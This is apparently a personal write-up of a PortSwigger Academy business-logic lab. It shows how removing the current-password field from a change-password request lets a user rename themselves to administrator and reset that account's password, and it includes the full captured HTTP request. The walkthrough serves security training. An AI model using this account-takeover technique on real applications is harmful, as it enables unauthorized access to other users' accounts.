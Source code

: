 #+title: Weak isolation on dual-use endpoint
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]
#+description: Business Logic Vulnerabilities Labs from Portswigger
#+date: 2023-10-29 Sun
#+options: toc:2

* Table of Contents :toc:
- [[#lab-contain][Lab contain]]
  - [[#test-account][Test account]]
- [[#end-goal][End Goal]]
- [[#exploit][Exploit]]

* Lab contain
- Flaw on assumption about user's privilege level based on their input
** Test account
       - username: =wiener=
       - password: =peter=
* End Goal
- Exploit the logic of its account management features to gain access to arbitray user's account
- Access =administrator= privilege and delete =carlos= user
* Exploit
- Access the lab
- Login with [[#test-account][Test account]] credential
- On account dashboard there are two feature available
  1. update email
  2. change password and username
- Test update email feature
  - Nothing special happen
- Now try to change username =wiener= to =administrator= and fill-up other password field
  - But beacuse of current password field it throws an error that =The current password is incorrct=
- Now try without filling the current password field Send the request to repeater and remove =current-password= completely
  #+begin_src 
POST /my-account/change-password HTTP/2
Host: 0a41000c03c8fe0e80b89e9f006a00ac.web-security-academy.net
Cookie: session=240XBkeERrHJ0kOQralDYj5fKnfBqLo0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: https://0a41000c03c8fe0e80b89e9f006a00ac.web-security-academy.net
Referer: https://0a41000c03c8fe0e80b89e9f006a00ac.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=jFqx4FBUOaNty6tEVA6OWh02D5X7w80B&username=administrator&new-password-1=admin&new-password-2=admin
#+end_src

- Send this request. See that password change successfully

- Now log out from your account and login with username =administrator=

- Delete the user =carlos= from admin panel to solve the lab
 
  
